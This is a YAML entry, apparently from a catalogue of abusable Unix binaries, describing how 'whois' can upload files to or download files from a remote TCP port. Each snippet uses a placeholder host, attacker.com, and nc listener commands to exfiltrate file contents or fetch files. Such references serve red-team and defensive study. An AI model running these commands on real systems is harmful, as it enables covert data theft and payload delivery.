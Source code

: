 ```yaml
---
description: |
  `whois` hangs waiting for the remote peer to close the socket.
functions:
  upload:
    - description: Send a text file to a TCP port. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file. The file has a trailing `$'\x0d\x0a'` and its length is limited by the maximum size of arguments.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        whois -h $RHOST -p $RPORT "`cat $LFILE`"
    - description: Send a binary file to a TCP port. Run `nc -l -p 12345 | tr -d $'\x0d' | base64 -d > "file_to_save"` on the attacker box to collect the file. The file length is limited by the maximum size of arguments.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        whois -h $RHOST -p $RPORT "`base64 $LFILE`"
  download:
    - description: Fetch remote text file from a remote TCP port. Run `nc -l -p 12345 < "file_to_send"` on the attacker box to send the file. The file has instances of `$'\x0d'` stripped.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_save
        whois -h $RHOST -p $RPORT > "$LFILE"
    - description: Fetch remote binary file from a remote TCP port. Run `base64 "file_to_send" | nc -l -p 12345` on the attacker box to send the file.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_save
        whois -h $RHOST -p $RPORT | base64 -d > "$LFILE"
---
```

